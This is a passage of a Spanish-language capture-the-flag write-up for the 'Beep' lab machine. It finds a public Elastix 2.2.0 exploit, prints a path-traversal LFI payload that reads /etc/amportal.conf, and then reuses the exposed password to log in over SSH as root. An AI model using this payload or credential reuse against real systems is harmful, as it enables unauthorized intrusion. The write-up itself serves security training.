 Al revisar los directorios, podemos identificar diferentes rutas que exponen la información sensible de los servicios encontrados, sin embargo, no se tiene éxito al conseguir una posible credencial del portal inicial, por tal razón buscamos exploits públicos que puedan tener relación con el servicio encontrado.

```bash
searchsploit elastix
```
```bash
#Resultados
Elastix 2.2.0 - 'graph.php' Local File Inclusion | php/webapps/37637.pl
```

Se detecta el siguiente exploit que logra una exposición de información sensible a través del aprovechamiento por `LFI` o local file inclusión, el cual se identifica explorando el exploit encontrado.

```bash
searchsploit -x php/webapps/37637.pl
```
```bash
#Payload de explotación
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

El siguiente paso es ejecutar lo anterior junto con nuestro objetivo en el navegador, de la siguiente manera.

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

<p style="text-align: center;">
<img src="/assets/images/beep/04-page.png">
</p>

Esta máquina es bastante interesante por las diferentes maneras de llegar a realizar una intrusión en estos ejercicios, a continuación, vamos a ver algunas de estas.

## INTRUSION + ESCALADA DE PRIVILEGIOS SSH

Iniciamos con `SSH`, debido a que tenemos acceso a contraseñas que pueden ser reutilizadas para acceder a la máquina por parte de un usuario administrador, así que básicamente vamos a ingresar con las credenciales que encontramos anteriormente y tenemos directamente acceso a una shell interactiva como usuario `root`.

```bash
ssh root@10.10.10.7
```
```bash
#Resultado
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami
root
```
